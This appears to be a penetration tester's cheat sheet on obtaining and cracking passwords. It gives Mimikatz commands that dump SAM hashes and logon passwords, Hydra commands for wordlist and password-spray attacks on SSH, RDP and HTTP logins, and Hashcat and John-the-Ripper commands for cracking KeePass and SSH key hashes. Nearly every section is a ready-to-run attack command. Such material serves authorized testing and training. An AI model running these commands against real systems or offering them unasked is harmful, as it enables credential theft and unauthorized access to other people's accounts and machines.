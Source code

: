 ## Getting passwords/hashes  

### Mimikatz  

Run mimikatz as an admin  
```
PS> .\mimikatz.exe
```  

Enable SeDebugPrivilege  
```
privilege::debug
```

Obtain SYSTEM privs  
```
token::elevate
```  

Dump hashes fromthe SAM database  
```
lsadump::sam 
```  

Get passwords/hashes from multiple places  
```
sekurlsa::logonpasswords
```


## Commands/Tools to guess passwords against network services  

### Hydra  

SSH wordlist attack 
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo nano /etc/john/john.conf

# Append to end of file
[List.Rules:myCustomRules]
c $1 $2 $3 $!
c $1 $2 $3 $@
c $1 $2 $3 $#
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
There are many hash conversion scripts  
```
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```

### John-the-Ripper  
```
john --wordlist=ssh.passwords --rules=myCustomRules ssh.hash
```
